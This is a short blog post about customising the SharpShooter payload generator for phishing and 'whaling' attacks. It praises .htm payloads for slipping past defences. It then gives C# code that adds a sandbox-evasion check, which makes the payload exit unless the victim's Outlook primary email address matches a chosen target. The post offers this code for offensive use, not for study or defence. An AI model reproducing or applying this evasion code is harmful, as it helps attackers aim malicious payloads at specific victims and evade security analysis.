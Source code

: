 ```yaml
---
layout: post
title: Sharply shoot phishing target
---
```


Thanks Sharpshooter for providing such a excellent tool to generate payload. File with .htm extension is so much easier to go under the radar.  <br>

Although it comes with sandbox evasion, I may not able to use that 4 built-in techniques to distinguish a well-built sandbox from a normal laptop. Then I realized enterprise email account would be a good identifier, if you are doing whaling. Just add a new Case and ask outlook for primary address, not credential prompt on client-side~~~

In SharpShooter/CSharpShooterStageless/SharpShooter.cs
```
public void CheckPlease(int check, string arg)
  {
      CheckPlease cp = new CheckPlease();
      switch(check)
      {
          case 0:
              if (!cp.isDomain(arg)) Environment.Exit(1);
              break;
          case 1:
              if (!cp.isDomainJoined()) Environment.Exit(1);
              break;
          case 2:
              if (cp.containsSandboxArtifacts()) Environment.Exit(1);
              break;
          case 3:
              if (cp.isBadMac()) Environment.Exit(1);
              break;
          case 4:
              if (cp.isDebugged()) Environment.Exit(1);
              break;
          case 5:
              if (!cp.isDesignatedEmail(arg)) Environment.Exit(1);
              break;
      }
  }
```

In SharpShooter/CSharpShooterStageless/CheckPlease.cs

```
public bool isDesignatedEmail(String input)
{
    if ((new Outlook.Application()).Session.Accounts[1].SmtpAddress.Equals(input))
    { return true;}
    else { return false; }
}
``` 
